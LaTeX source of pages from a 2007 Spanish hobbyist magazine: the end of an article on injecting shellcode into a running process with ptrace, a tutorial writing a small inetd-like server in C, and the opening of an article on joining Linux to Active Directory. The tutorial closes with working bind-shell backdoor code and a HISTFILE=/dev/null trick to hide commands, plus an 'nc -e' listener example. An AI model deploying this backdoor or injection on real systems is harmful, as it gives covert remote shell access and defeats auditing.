Una vez que hemos terminado, el proceso siendo depurado se puede
liberar utilizando una petici�n PTRACE\_DETACH.

\bigskip{\bf ACCESO A REGISTROS}

Una vez que se ha adquirido el control del proceso, podemos acceder a
toda la informaci�n interna de este, incluyendo el estado de sus
registros. De la misma forma, estos registros e incluso la
imagen en memoria del proceso puede ser actualizada.

Esto se puede conseguir con las peticiones PTRACE\_GETREGS y PTRACE\_SETREGS
para leer y escribir los registros del procesador para ese
proceso. Estas peticiones ptrace hacen uso de la estructura
user\_regs\_struct que est� definida en el fichero asm/user.h. Para los
m�s vagos, o para aquellos que no tengan el ordenador cerca,
reproducimos dicha estructura a continuaci�n. 
}

\eOpage
\rput(8.3,-14.5){\resizebox{19.3cm}{26cm}{{\epsfbox{images/papel_pijama2-2.eps}}}}
\bOpage{introcolor}{0.25}{REVERSO TENEBROSO}



{\small\tt

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}
struct user_regs_struct {
  long ebx, ecx, edx, esi, edi, ebp, eax;
  unsigned short ds, __ds, es, __es;
  unsigned short fs, __fs, gs, __gs;
  long orig_eax, eip;
  unsigned short cs, __cs;
  long eflags, esp;
  unsigned short ss, __ss;
};
\end{lstlisting}

La utilidad de cada uno de ellos depender� de lo que pretendamos hacer
con nuestro Depurador Interactivo Personalizado. Para el sencillo
ejemplo que introduciremos en breve, solo nos van a interesar dos de
estos registros. A saber. El registro eip y el registro esp.

El primero de ellos es lo que se conoce como Instruction Pointer o
Puntero de instrucci�n y siempre contiene el valor de la direcci�n de
memoria en el que se encuentra la siguiente instrucci�n que el
procesador ejecutar�. 

Lo que esto significa es que si modificamos el
valor de este registro, podemos conseguir que la ejecuci�n del
programa que estamos controlando contin�e en la parte del programa que
nosotros deseemos.

El segundo registro esp sirve para controlar la pila del
procesador. Su nombre viene del ingl�s Stack Pointer o Puntero de
Pila. La pila no es m�s que una regi�n de memoria que normalmente se
utiliza para almacenar informaci�n temporal. El procesador proporciona
instrucciones especiales para el acceso a la misma y sigue una
pol�tica LIFO (Last In First Out), es decir, el primero que entra es
el �ltimo que sale.... igual que una ``pila de platos''.

\bigskip{\bf INSERTANDO C�DIGO}

Una vez que tengamos el control del proceso, tenemos muchas opciones
para insertar nuestro c�digo en �l. Nosotros vamos a hacerlo a trav�s
de la pila.

Lo interesante de hacerlo de esta forma es que as� es como suelen
funcionar los buffer overflow. Los buffer overflow utilizan la pila
por la sencilla raz�n de que las variables temporales de cualquier
funci�n C se almacenan, precisamente, en esa zona de la
memoria. 

No vamos a entrar en m�s detalles sobre este tema, los
lectores interesados pueden consultar el cl�sico art�culos ``Smashing
The Stack For Fun And Profit'' de Aleph One, que explica este tema de
una forma clara, amena y muy completa.

As� que, volviendo al tema que nos ocupa, lo que vamos a hacer es
insertar en la pila del proceso objetivo un fragmento de c�digo que no
hace otra cosa que una llamada al sistema exec. Esta llamada al
sistema es la que realmente sustituye la imagen de un proceso por otra
que nosotros le proporcionamos. 

El shellcode que hemos utilizado es el que pod�is encontrar en el
art�culo de Aleph One que indicamos anteriormente, en el que hemos
modificado la cadena de caracteres /bin/sh por /tmp/sm, es decir, por
nuestro programa.

Para insertar el c�digo se utilizan peticiones PTRACE\_POKE a las que
tenemos que proporcionar la direcci�n en la que queremos escribir y el
valor que vamos a escribir. Probablemente a muchos os traiga muy
buenos recuerdos esto de los pokes :)... y como veis la cosa tampoco a
cambiado tanto.

\bigskip{\bf EJECUTANDO EL C�DIGO INSERTADO}

Una vez obtenidos los registros, e insertado nuestro shellcode en la
pila del proceso que estamos depurando, solo tenemos que modificar el
registro eip para que apunte a la primera instrucci�n de nuestro
shellcode y dejar que el proceso contin�e normalmente con su
ejecuci�n.

Esto lo podemos hacer con una petici�n \\PTRACE\_DETACH o
PTRACE\_CONT. Nosotros haremos un ``detach'', liberando el proceso puesto
que ya no vamos a hacer nada m�s con �l.

Cuando el proceso retoma el control, comenzar� la ejecuci�n del
shellcode insertado puesto que ah� es donde hemos hecho que apunte el
registro eip.

\bigskip{\bf COMENTARIOS ADICIONALES}

Para hacer un poco m�s interesante el ejemplo, hemos a�adido una
funci�n para explorar los descriptores de fichero abiertos por el
proceso que vamos a controlar.

Los descriptores de fichero son n�meros enteros que el sistema asocia
a los distintos dispositivos que el proceso utiliza. Por defecto
siempre tendremos tres descriptores abiertos, el 0 el 1 y el 2 que se
corresponden con la entrada est�ndar, la salida est�ndar y la salida
de error.

Si el proceso que deseamos comprobar utiliza sockets, ``pipes'' u otros
dispositivos como un puerto serie o una tarjeta de sonido, estos
aparecer�n en la lista.

Para comprobar si un determinado descriptor de fichero est� abierto
utilizaremos la llamada al sistema stat, la cual devolver� el valor 0
si ese descriptor est� asociado a alg�n dispositivo y adem�s rellenar�
una estructura que recibe como par�metro con informaci�n
interesante. Nosotros hacemos un sencillo bucle de 0 a 65535 para
localizar los descriptores abiertos. M�s que suficiente para la
mayor�a de los casos. 

Lo bueno de los descriptores de fichero es que nos permiten utilizar
las llamadas al sistema write y read, independientemente de si se
refieren a un fichero, a una conexi�n de red o a nuestra tarjeta de
sonido. 

Nuestro programilla de ejemplo ilustra este hecho, con un tratamiento
especial de los descriptores referidos a sockets.


As�, cuando nuestro programa encuentra un socket, lo primero que hace
es utilizar la funci�n getpeername para determinar si el socket tiene
asociada una conexi�n.


De esta forma, si encontramos una conexi�n activa, enviaremos un
mensaje por ella utilizando la llamada al sistema write. Por supuesto,
dependiendo de qui�n est� al otro lado y del protocolo de aplicaci�n
utilizado, estos datos pueden no tener ning�n efecto.

ESTO ES TODO!


}


\end{multicols}

\clearpage
\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, Occam's Razor
% Contenido disponible bajo licencia 
% Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a 
% de Creative Commons. 
%
% Para ver una copia de esta licencia, visite 
% http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una
% carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Secci�n M� R�pido
%
% Incluye imagen del art�culo


\rput(1.5,-2.3){\resizebox{!}{6cm}{{\epsfbox{images/superdaemon-1.eps}}}}

% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.25}{M� R�PIDO}

\mtitle{7cm}{Crea tu propio SuperDemonio}

\msubtitle{6cm}{... y otras cosas m�s curiosas}

{\sf por Er del Aberno}



{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}

\intro{introcolor}{E}{n el n�mero anterior vimos como crear servicios de red de forma
r�pida, utilizando el superdemonio inetd. Eso est� muy bien,
pero... no ten�is curiosidad por saber como funciona esa
aplicaci�n?. Bueno a lo mejor no, pero que pensar�ais si en lugar de
hablar de inetd, hablamos de puertas traseras?... Aha!
}

Como veremos muy pronto, programar una versi�n reducida de inetd se
puede hacer ``m� r�pido'', sin embargo, aunque el programa va a ser m�s
bien peque�o, habr� un mont�n de conceptos del entorno de programaci�n
UNIX que debemos conocer.

B�sicamente, necesitamos saber c�mo crear sockets, como crear procesos
y como funciona la redirecci�n de entrada/salida. No os preocup�is, es
mucho m�s f�cil de lo que parece.

\sectiontext{white}{black}{LOS SOCKETS}

Puesto que vamos a estar hablando de ellos todo el rato, parece
apropiado dedicarle unas palabras.

A todos los efectos, un socket se puede ver como un descriptor de
fichero asociado a una conexi�n de red. Como todos sabemos, los
descriptores de fichero son n�meros que los programas utilizan para
referenciar los ficheros que utilizan.

Con los sockets sucede lo mismo, con la diferencia de que cuando
escribimos en el socket, enviamos datos por la red y cuando leemos
del socket estaremos recibiendo datos por la red, en lugar de/a un fichero.

La mayor�a de las aplicaciones de red que existen utilizan la
implementaci�n BSD, aunque existen otras soluciones para las
comunicaciones por red.... pero en eso no vamos a entrar.

Los sockets se pueden usar para establecer canales de comunicaci�n
utilizando distintas familias de protocolos y distintas sem�nticas de
comunicaci�n (es decir, como se lleva a cabo esta comunicaci�n). En
este art�culo vamos a utilizar la familia de protocolos IPv4 y
concretamente una sem�ntica orientada a conexi�n (TCP). 

Los m�s curiosos pod�is echarle un ojo a la p�gina del manual para la
llamada al sistema socket (man 2 socket), y los m�s, m�s curiosos no os
podeis perder:  man 7 tcp; man 7 udp, man 7 socket, etc... comprobad
la secci�n ``SEE ALSO'' al final de las p�ginas del manual.

\columnbreak

\sectiontext{white}{blacl}{EL SOCKET DEL SERVIDOR}

Tras esta brev�sima introducci�n vamos al tema.

Lo primero que vamos a hacer, es crear el socket con el que nuestro
servidor aceptar� conexiones en un determinado puerto. Para ello tenemos
que crear un socket y decirle en que puerto debe esperar
conexiones. Lo primero que tenemos que hacer es incluir unos cuantos
ficheros de cabecera en nuestro programa:

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}  
// Estos los necesitaremos m�s tarde   
#include <string.h> 
#include <stdlib.h>

#include <unistd.h>

// Espec�ficos de red
#include <sys/types.h>
#include <sys/socket.h>

#include <netinet/in.h>
#include <arpa/inet.h>

#include <fcntl.h>
\end{lstlisting}

Estos ficheros de cabecera incluyen la definici�n de los tipos de
datos y funciones que vamos a utilizar en nuestro programa. Por ahora
no tienen mayor inter�s y simplemente deben estar ah�. 

Vamos con el c�digo de verdad. Lo primero que tenemos que hacer es
crear el socket y configurarlo como un socket ``que escucha'', es decir,
que acepta conexiones. Vamos a definir una peque�a funci�n para facilitar las cosas.

\begin{lstlisting}     
int crea_server_socket (int puerto)
{
  struct sockaddr_in   server, client;
  socklen_t            sa_len = 
                        sizeof(struct sockaddr_in);
  int                  s, as;
  
  server.sin_addr.s_addr = INADDR_ANY;
  server.sin_family = AF_INET;
  server.sin_port = htons(puerto);
  
  s = socket (PF_INET, SOCK_STREAM, 0);
  if (
   (bind (s, (struct sockaddr*)&server, sa_len) < 0))
    {
      fprintf (stderr, 
          "FATAL: Cannot bind to port %d\n", puerto);
      exit(1);
    }
  listen (s, 1);

  return s;
}
\end{lstlisting}


Como os pod�is imaginar esta funci�n toma como par�metro el puerto en
el que nuestro socket esperar� conexiones, y nos devuelve el socket ya
configurado. S�, un socket es solo un n�mero (tipo int).

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\ebOpage{introcolor}{0.25}{M� R�PIDO}

La estructura \verb!sockaddr_in! es la que nos permite configurar el puerto
en el que vamos a escuchar. Si estuvi�ramos escribiendo un cliente, la
constante \verb!INADDR_ANY! se sustituir�a por la direcci�n IP de la m�quina
a la que nos queremos conectar... bueno, hay que llamar a alguna
funci�n extra para convertir la direcci�n de la m�quina en algo que
entienda el sistema.

A continuaci�n creamos un socket para una comunicaci�n IPv4. Vamos,
Internet. Y le indicamos que vamos a utilizar una sem�ntica de
``chorro'' ({\em stream}). Esto dicho as� suena muy mal, pero lo que significa, al fin
y al cabo, es que vamos a utilizar el protocolo TCP. 

Realmente el protocolo se especifica en el �ltimo par�metro, pero
normalmente, una vez fijada la familia de protocolos y la sem�ntica de
comunicaci�n solo existe un protocolo posible, por lo que el �ltimo
par�metro de la llamada al sistema socket ser� casi siempre 0.

Bien, ahora tenemos que asignar a nuestro socket la
informaci�n de direcci�n de red que tenemos almacenada en la variable
server. Esto es lo que hace la llamada al sistema bind.

Finalmente, configuramos el socket para aceptar conexiones. Esta es la
finalidad de la llamada al sistema listen. El segundo par�metro de
esta llamada al sistema define el tama�o de la cola de conexiones
entrantes, es decir, cuantas conexiones pueden estar esperando para
ser atendidas. En breve sabremos que es eso de ``atender conexiones''.

Aunque no vamos a entrar en ello, que sep�is que el proceso de
creaci�n de un socket para una aplicaci�n cliente (como vuestro
browser o vuestro cliente de correo) es exactamente igual a la
descrita hasta que se invoca la llamada al sistema listen, siendo la
llamada a bind opcional.

\sectiontext{white}{black}{ATENDIENDO CONEXIONES}

Vale, ya tenemos nuestro socket configurado, y ahora tenemos que
atender las conexiones que se realicen por la red. Para ello, lo
primero que tenemos que hacer es aceptar la conexi�n entrante. Vamos a
escribir otra funci�n para poder hacer esto:

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}     
int acepta_conexion (int s)
{
  struct sockaddr_in client;
  socklen_t          sa_len = 
                      sizeof(struct sockaddr_in);

  return accept (s, (struct sockaddr*) &client, 
                 &sa_len);
}
\end{lstlisting}


Est� claro no?. Para aceptar una conexi�n tenemos que utilizar la
llamada al sistema accept :). Esta llamada, espera a que alguien
intente conectarse al socket 's'. Cuando llega esa conexi�n, se crea
un nuevo socket que ser� utilizado para la comunicaci�n entre cliente
y servidor, de forma que el servidor pueda seguir aceptando conexi�n
mientras ``atiende'' la que acaba de aceptar.

Con todo esto, y sabiendo que podemos acceder a los sockets como si
fueran ficheros, vamos a generar nuestro propio servidor de echo
aut�nomo :).

\sectiontext{white}{black}{UN SERVIDOR DE ECHO}

En el n�mero anterior vimos varios ejemplos del c�digo principal de un
servidor de echo que funciona con inetd, con lo que no deber�ais tener
problema en escribirlo vosotros mismos... Bueno, vale. La funci�n
ser�a algo tal que as�:

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}     
int procesa (int s)
{
  unsigned char  buffer[1024];
  int            len;

  len = read (s, buffer, 1024);
  write (s, buffer, len);

  return 0;
}
\end{lstlisting}


Como pod�is ver, la funci�n es exactamente igual a la utilizada con
inetd, pero en lugar de utilizar stdin y stdout, utilizamos un
socket. Este tema ya lo solucionaremos m�s tarde :).

Con esta funci�n, la funci�n main de nuestro servidor ser� algo como
esto:

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}     
int main (int argc, char argv[])
{
  int    s, s1;

  s = crea_server_socket (atoi(argv[1]));
  s1 = acepta_conexion (s);
  close (s);
  procesa (s1);
  close (s1);  
 
  return 0;
}
\end{lstlisting}

Esto ya no tiene tan mala pinta no?. As� que, a d�nde hemos llegado?.

Pues tenemos todo el c�digo de red que inetd nos proporcionaba en
nuestro primer ejemplo. Bueno, se trata de una versi�n bastante
reducida. Por ejemplo, nosotros solo podemos escuchar en un
puerto... pero esas nimiedades ya las solucionaremos m�s tarde. 

Lo que ahora nos interesar�a es poder ejecutar cualquier programa para
atender nuestras conexiones, y adem�s hacerlo de una forma tan
sencilla como inetd lo hace.

\sectiontext{white}{black}{LANZANDO UN PROCESO EXTERNO}

Ahora es el momento de tener a mano nuestro servicio de echo externo,
el que desarrollamos en el n�mero anterior, porque en menos que canta
un gallo lo vamos a estar ejecutando desde nuestro peque�o
servidor. JA!

Para ello modificamos la funci�n procesa, o creamos una nueva
actualizando la funci�n main de forma acorde. La nueva funci�n ser�
algo tal que as�:

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}     
int procesa (int s, char *prg)
{
  dup2(s, 0);
  dup2(s, 1);
  dup2(s, 2);  
  return system (prg);
}
\end{lstlisting}     


La magia de todo esto est� en la llamada al sistema dup2. Esta llamada
al sistema recibe como par�metros dos descriptores de ficheros, y
hace, que ambos sean utilizables de forma intercambiable.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\ebOpage{introcolor}{0.25}{M� R�PIDO}

As� que lo que hacemos es ``duplicar'' los descriptores de
entrada/salida est�ndar (stdin, stdout y stderr) para que sean ``iguales'' a
nuestro socket. De esta forma, lo que estamos haciendo es redirigir la
entrada/salida est�ndar del nuevo proceso a nuestro socket. Igualito que hac�a inetd.

Una vez que la entrada/salida est�ndar ha sido redireccionada a
nuestro puerto de comunicaci�n, simplemente ejecutamos nuestro
``servicio'' externo utilizando system.

Ingre�ble!. En menos de 60 l�neas de c�digo tenemos una microversi�n de
inetd. Evidentemente inetd hace un mont�n de cosas m�s (algunas las
veremos a continuaci�n), pero en esencia funciona como acabamos de
describir.

Vamos a probarlo. En una consola compilamos nuestro server y lo lanzamos indic�ndole
que utilice nuestro servicio echo escrito en perl, que escribimos en
el n�mero anterior:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ make server_simple
occam@razor$./server_simple 8080 ./echo.pl
\end{verbatim}
}
\end{mexample}


Ahora, desde otro terminal, utilizamos netcat para conectarnos a
nuestro servidor y escribimos algo para probar el servicio de echo.

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ nc localhost 8080
Hola Mundo!!!
Hola Mundo!!!
occam@razor$
\end{verbatim}
}
\end{mexample}


Parece que va como la seda ;). Y...


\begin{mexample}
{\scriptsize
\begin{verbatim}
occam@razor$ strip server_simple
occam@razor$ ls -lh
-rwxr-xr-x 1 occam occam   41 2007-02-20 09:03 echo.pl
-rwxr-xr-x 1 occam occam 3.9K 2007-02-20 09:09 server_simple
-rw-r--r-- 1 occam occam 1.2K 2007-02-20 09:03 server_simple.c
\end{verbatim}
}
\end{mexample}

Y en menos de 4Kb... no est� nada mal :). La verdad es que inetd es
bastante peque�o, unos 20Kb, pero bueno, esta es nuestra criatura ;).

\sectiontext{white}{black}{SUSTITUYENDO SYSTEM}

La funci�n system est� muy bien, ya que es muy sencilla de utilizar,
pero no nos da demasiado control sobre lo que ejecutamos. As� que
vamos a hacer nuestra propia versi�n de system.

Fijaros en esta nueva versi�n de la funci�n procesa.

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}     
int procesa (int s, char *prg)
{
  pid_t   pid;
  char    *name[2];

  if ((pid = fork ()) < 0)
    fprintf (stderr, "No puedo crear el proceso");
  else
    {
      if (pid) /* Proceso padre */
	{
	  printf ("Proceso hijo es %d\n", pid);
	  close (s);
	}
      else
	{
	  dup2(s, 0);
	  dup2(s, 1);
	  dup2(s, 2);

	  name[0] = prg;
	  name[1] = NULL;
	  
	  execv (name[0], name);
	  exit (1);
	}
    }
}
\end{lstlisting}     

A falta de una llamada a wait, acabamos de implementar nuestra
particular versi�n de system. De hecho, al no usar wait y hacer que el
proceso padre espere a que termine el hijo, estamos lanzando nuestro
proceso en paralelo.

En esta nueva versi�n de procesa se utilizan tres llamadas al sistema. La primera de
ellas es fork, que nos permite crear un nuevo proceso. Esta llamada al
sistema crear� un nuevo proceso que ser� id�ntico al proceso padre, es
decir, despu�s de su ejecuci�n tendremos dos procesos iguales
ejecut�ndose en el mismo punto (justo despu�s de la llamada a fork).

As� que lo que tenemos que hacer es ejecutar cosas distintas en el
proceso original y en el proceso hijo (el que acabamos de crear). Para
ello, simplemente hay que comprobar el valor que nos ha devuelto
fork. El proceso padre recibe el identificador del proceso hijo que se
ha generado, mientras que el proceso hijo recibe un 0. En lenguaje
llano, el padre conoce a sus hijos, pero los hijos no tienen ni idea
de qui�n es su padre... en estas circunstancias casi ser�a m�s
correcto hablar de proceso madre que de proceso padre... que nunca se
sabe :).

As� que, el proceso padre simplemente vuelve de la funci�n, mientras
que el proceso hijo tendr� que ejecutar nuestro programa externo.

\sectiontext{white}{black}{EJECUTANDO PROCESOS}

A la vista de nuestra �ltima versi�n de procesa, es evidente que la forma de ejecutar un
programa es utilizando la llamada execv de nuestra funci�n de atenci�n
de conexiones. As� es, pero es necesario hacer un par de comentarios.

El primero es que cuando se crea un nuevo proceso utilizando fork,
este proceso hereda todos los descriptores abiertos por el proceso
padre (el que llama a fork). Como dijimos m�s arriba son id�nticos.
Como dos gotas de agua. Realmente hereda algunas cosas m�s. Los m�s
curiosos que se remitan al manual (man fork).

En principio, el proceso hijo contin�a su ejecuci�n despu�s del fork,
y podr�amos incluir el c�digo del servidor directamente ah�, pero si
lo  que queremos es ejecutar otro programa,
entonces tenemos que cambiar el ``c�digo'' del proceso hijo. Y esto es
lo que hace exec.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\ebOpage{introcolor}{0.25}{M� R�PIDO}

Utilizando la terminolog�a de las p�ginas del manual, exec sustituye la imagen del proceso
actual con una nueva imagen de proceso que obtiene de un programa
externo almacenado en el disco.... Es algo as� como una posesi�n :)

Observad que la llamada exec sustituye la imagen del proceso, pero
mantiene abiertos los descriptores de ficheros del proceso que la
invoca. De otra forma, todo esto no funcionar�a.

\sectiontext{white}{black}{DEJANDO EL SERVIDOR EN CONDICIONES}

Bien, si hasta el momento hab�is estado probando el c�digo que hemos
presentado, habr�is comprobado un par de efectos un poco inc�modos.

El primero es que justo despu�s de ejecutar el servidor, la llamada a
bind falla, diciendo que la direcci�n ya est� en uso. Los m�s curiosos
pueden indagar en los viejos tomos (vamos, los RFC y la biblia de
Stevens) sobre el estado maldito: \verb!TIME_WAIT!. Alg�n d�a hablaremos
sobre los entresijos del TCP/IP, pero no hoy.

Para los que pasamos de todo, simplemente vamos a indicar al sistema
que permita la reutilizaci�n de direcciones. Esto debemos hacerlo
despu�s de crear el socket (sino a ver que modificamos), y antes de
hacer el bind (que es lo que nos da problemas :).

La nueva versi�n \verb!crea_server_socket! quedar�a as�:

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}     
int crea_server_socket (int puerto)
{
  struct sockaddr_in server;
  socklen_t          sa_len = 
                      sizeof(struct sockaddr_in);
  int                s;
  int                ops = 1;
  
  server.sin_addr.s_addr = INADDR_ANY;
  server.sin_family = AF_INET;
  server.sin_port = htons(puerto);
  
  s = socket (PF_INET, SOCK_STREAM, 0);

  setsockopt (s, SOL_SOCKET, SO_REUSEADDR, 
              &ops, sizeof(ops));
  if (
   (bind (s, (struct sockaddr*)&server, sa_len) 
        < 0))
    {
      fprintf (stderr, 
      "FATAL: Cannot bind to port %d\n", puerto);
      exit(1);
    }
  listen (s, 1);

  return s;
}
\end{lstlisting}     

S�, as� es. Los socket tienen opciones (alguien ha consultado la
secci�n 7 del manual... man 7 socket?). Y se pueden modificar con esa
funci�n que est� antes del bind.

Bueno, ya nos hemos librado de un problema... pero todav�a queda otro.

\sectiontext{white}{black}{CONTROLANDO A LOS CHIQUILLOS}

Como se suele decir, los chiquillos son unos demonios. Pero a veces,
pueden llegar a ser zombies :). Afortunadamente, si utiliz�is Linux,
el sistema se suele encargar de estos molestos zombies, pero, para
evitar sorpresas en otros sistemas, es mejor dar buena cuenta de
ellos.

Un proceso se queda en estado zombie, cuando su padre termina la
ejecuci�n antes que �l. En ese caso, el proceso se queda esperando
para retornar el resultado a su padre. Como el padre ya no existe,
pues ah� se queda el pobre, ni vivo, ni muerto... vamos un zombie
total.

Para evitar esto, el padre debe ejecutar la llamada al sistema wait,
la cual hace que espere hasta que sus hijos terminen de ejecutarse y
devuelvan un c�digo de salida (el introducido en llamada a exit o el return en la
funci�n main).

Lo normal es manejar esta situaci�n utilizando se�ales, concretamente
proporcionando un manejador para la se�al SIGCHLD, que se genera cada
vez que un proceso hijo se para o termina. Es muy sencillo para los
que quer�is probarlo. Nosotros simplemente esperaremos por nuestro
primog�nito justo despu�s de la llamada a procesa. Para ello, modificaremos la
funci�n main de esta guisa.

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}     
int main (int argc, char *argv[])
{
  int                  s, as, status;
  
  s = crea_server_socket (atoi(argv[1]));
  as = acepta_conexion (s);
  procesa (as, argv[2]);
  printf ("Mi primog�nito %d ha terminado\n", 
           wait(&status));
  close(as);
  close (s);
}
\end{lstlisting}     

No olvid�is a�adir la siguiente l�nea junto al resto de includes:

\verb!#include <sys/wait.h>!

Probad de nuevo el servidor... y conoced el ``nombre'' del
primog�nito. JAAA, JAAA, JAAA!!!!

\sectiontext{white}{black}{nc -c}

En la secci�n, ``El Rinc�n de los Lectores'', de este mismo n�mero,
pod�is encontrar un mensaje que nos env�o SLaYeR. En �l nos comenta
que su versi�n de netcat, no tiene la opci�n -c. 

Si descarg�is la �ltima versi�n de netcat, ver�is que efectivamente
esa opci�n no est� disponible. Y que implica esto... b�sicamente que
no pod�is pasar par�metros al programa que netcat ejecutar�. Probad
esto:

\begin{mexample}
{\small
\begin{verbatim}
$ nc -l -p 8000 -e 'ls /tmp'

En otra consola

$  nc localhost 8000
exec ls /tmp failed : No such file or directory
\end{verbatim}
}
\end{mexample}

Como pod�is observar, no funciona. La perdida opci�n -c es la que
permite realizar esto. B�sicamente lo que hace es invocar la shell con
esa misma opci�n (-c) lo que le indica que interprete la cadena de
caracteres que sigue a continuaci�n.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\eOpage

\rput(13,-19.5){\resizebox{!}{15cm}{{\epsfbox{images/lector.eps}}}}

\bOpage{introcolor}{0.25}{M� R�PIDO}

Con todo lo que hemos visto hasta aqu� y este �ltimo comentario,
deber�ais ser capaces de a�adir esa opci�n a vuestro netcat. Para que
la cosa quede m�s clara, aqu� esta la funci�n de netcat que ejecuta el
programa, y de la que deber�ais hacer una nueva versi�n:

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}     
doexec (fd)
  int fd;
{
  register char * p;

  dup2(fd,0);/* the precise order of fiddlage */
  close(fd); /* is apparently crucial; this is */
  dup2 (0,1);/* swiped directly out of "inetd".*/
  dup2 (0,2);
  p = strrchr(pr00gie,'/'); /* shorter argv[0]*/
  if (p)
    p++;
  else
    p = pr00gie;
Debug (("gonna exec %s as %s...", pr00gie, p))
  execl (pr00gie, p, NULL);
  bail ("exec %s failed", pr00gie); 
        /* this gets sent out.  Hmm... */
} /* doexec */
\end{lstlisting}     

Os suena?. Bueno, esperamos que alguien se anime. Es un ejercicio interesante.


\sectiontext{white}{black}{ZONA GEEK: BACKDOOR}

Al principio del art�culo, coment�bamos que quiz�s esto ser�a m�s
interesante si en lugar de superdemonios habl�ramos de puertas
traseras o backdoors como dicen los angloparlantes.

Muchos lectores avispados ya habr�n intuido como convertir nuestro
sencillo servidor en una puerta trasera muy simple. Para los m�s
despistados, aqu� est� la modificaci�n de la funci�n procesa para
rematar la transformaci�n.

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}     
int procesa (int s, char *prg)
{
  pid_t   pid;
  char    *name[3], *env[2];

  if ((pid = fork ()) < 0)
    fprintf (stderr, "No puedo crear el proceso");
  else
    {
      if (!pid) /* Proceso hijo */
	{
	  dup2(s, 0);
	  dup2(s, 1);
	  dup2(s, 2);

	  name[0] = "/bin/sh";
	  name[1] = "-i"; 
	  name[2] = NULL;

	  env[0] = NULL;
	  execve (name[0], name, env);
	  exit (1);
	}
    }
  return 0;
}
\end{lstlisting}     

Si ahora, ejecutamos nuestro servidor como siempre (no hace falta
indicar ning�n programa a ejecutar), lo que obtenemos al conectarnos
es:

\begin{mexample}
{\small
\begin{verbatim}
$ nc localhost 8080
sh: no job control in this shell
sh-3.1$ exit
exit
\end{verbatim}
}
\end{mexample}

S�... un acceso shell mola eh?. Si os fij�is, hemos a�adido una nueva
variable \verb.env. y hemos cambiado la funci�n exec a utilizar. Esta nueva
versi�n, execve, nos permite, adem�s de ejecutar un determinado
programa con sus par�metros, establecer una serie de variables de
entorno para la ejecuci�n del mismo.

En nuestro ejemplo no hemos establecido ninguna... pero probad a
incluir estas l�neas

\begin{lstlisting}     
env[0]="HISTFILE=/dev/null";
env[1]=NULL;
\end{lstlisting}     

Sobran las explicaciones no?... Bueno, vale. Lo que hacemos es cargarnos el fichero
de historia de la shell, con lo que no quedar� constancia de los
comandos que hayamos escrito a trav�s de nuestro backdoor. Mola!

\sectiontext{white}{black}{EN EL PR�XIMO N�MERO}

En el pr�ximo n�mero, veremos como modificar nuestro servidor para que
pueda escuchar en varios puertos simult�neamente, como hace inetd, y
algunas cosillas m�s :).

Hasta el pr�ximo n�mero.


\raggedcolumns
\clearpage

\end{multicols}



\clearpage
\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

% Seccion En la Pr�ctica
%
% Incluye imagen del art�culo


\rput(1,-2.3){\resizebox{!}{8cm}{{\epsfbox{images/door.eps}}}}

% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.25}{EN LA PR�CTICA}

\mtitle{7cm}{Conectando GNU/Linux y Windows}

\msubtitle{12cm}{Cliente GNU/Linux en un Dominio Windows Active Directory 2003}

{\sf por Pablo Palaz�n ({\tt pablo.palazon@gmail.com})\\Julio I. Sorribes ({\tt julioi.sorribes@uclm.es})}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}

\intro{introcolor}{I}{maginaros la siguiente situaci�n: Estamos en una empresa mediana o grande
donde la mayor�a de las m�quinas usan Windows. Para facilitar las tareas
de trabajo en equipo han creado un dominio gestionado mediante Directorio Activo (o Active Directory).
}

Para los administradores de un dominio Windows, es una tarea trivial
a�adir su maquina a �ste, pero la cosa se complica para las m�quinas
con sistema operativo GNU/Linux. Adem�s, la estructura del dominio es
muy compleja y la pol�tica de a�adir m�quinas es muy estricta, y
necesita m�s datos de los realmente necesarios (lugar de la m�quina,
n�mero de identificaci�n, propietario, etc). Por tanto, solo se a�aden
m�quinas desde un interfaz Windows.  

Antes de comenzar debemos establecer unos preliminares:

\begin{enumerate}
